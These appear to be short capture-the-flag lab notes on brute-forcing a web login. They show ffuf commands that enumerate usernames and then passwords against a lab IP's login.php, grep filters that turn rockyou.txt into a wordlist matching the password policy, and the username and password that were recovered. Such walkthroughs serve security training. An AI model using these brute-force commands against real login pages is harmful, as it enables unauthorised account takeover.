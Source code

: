 ___

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.60.36:44074/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=9vpru9k1j0215ggvufu2k67p3h" -d "username=FUZZ&password=test" -fr "Unknown username or password."
```

gladys

Password does not meet our password policy:

- Contains at least one digit
- Contains at least one lower-case character
- Contains at least one upper-case character
- Contains NO special characters
- Is exactly 12 characters long

```bash
grep '[[:digit:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
  | grep '[[:lower:]]' \
  | grep '[[:upper:]]' \
  | grep -E '^[[:alnum:]]{12}$' > custom_wordlist.txt
```

```bash
ffuf -w custom_wordlist.txt -u http://94.237.60.36:44074/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=9vpru9k1j0215ggvufu2k67p3h" -d "username=gladys&password=FUZZ" -fr "Invalid credentials."
```

dWinaldasD13

http://94.237.60.36:44074/profile.php

![[Pasted image 20241008183808.png]]

